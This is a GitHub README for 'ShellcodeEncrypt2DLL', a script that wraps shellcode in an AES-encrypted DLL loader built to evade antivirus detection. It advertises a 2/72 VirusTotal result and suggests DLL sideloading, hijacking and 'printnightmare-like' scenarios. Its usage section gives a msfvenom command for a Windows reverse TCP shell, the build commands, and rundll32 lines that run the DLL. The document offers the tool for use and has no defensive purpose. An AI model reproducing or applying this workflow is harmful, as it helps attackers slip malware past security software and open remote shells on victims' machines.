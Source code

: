 # ShellcodeEncrypt2DLL

A script to generate AV evaded(static) DLL shellcode loader with AES encryption.

Shellcode and API names encryption + Dynamic API loading

Two modes:
- non-standalone: To make an encrypted DLL **WITHOUT** KEY stored in the DLL.You can use it for sideload/rundll32 but you need to pass the key. (So even if the sample is captured, the shellcode will be still difficult to recover)
- standalone: To make an encrypted DLL **WITH** KEY stored in the DLL. You can use it for sideload/hijack or in a printnightmare-like scenario.

VT: 2/72 (13/3/2025)

![ShellcodeEncrypt2Dll_vs_VT](https://raw.githubusercontent.com/restkhz/blogImages/main/img/屏幕截图_20250313_050702.png)

![](https://raw.githubusercontent.com/restkhz/blogImages/main/img/屏幕截图_20250313_060155.png)

## Usage

You can use this on **Kali** or other linux distributions

Dependencies:
```
pip install pycryptodome
sudo apt install mingw-w64
```


Example:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 x64/xor_dynamic -f raw > shellcode.raw

python ShellcodeEncrypt2Dll.py --non-standalone shellcode.raw
or
python ShellcodeEncrypt2Dll.py --standalone shellcode.raw
```

Then you will get a `shell.dll`

For non-standalone:
```
rundll32 <path_to_dll>,EntryPoint <Your KEY>
```
You can make you own exe to load this DLL with KEY as well.

For standalone:
```
rundll32 <path_to_dll>,EntryPoint
```

As you see, standalone and non-standalone both have `EntryPoint` as export function.




Your can edit your key in the python script.

## How does it work?

This script will generate a header file for template.cpp, then try to compile with `x86_64-w64-mingw32-g++`.
The `shellcode` and `function names` like `VirtuallAlloc`, `CreateThread` etc will be encrypted(AES-CBC) with key.

The standalone mode will store the key in the DLL. Decrypt itself when running.
The non-standalone mode needs your key as a parameter to decrypt itself when running.
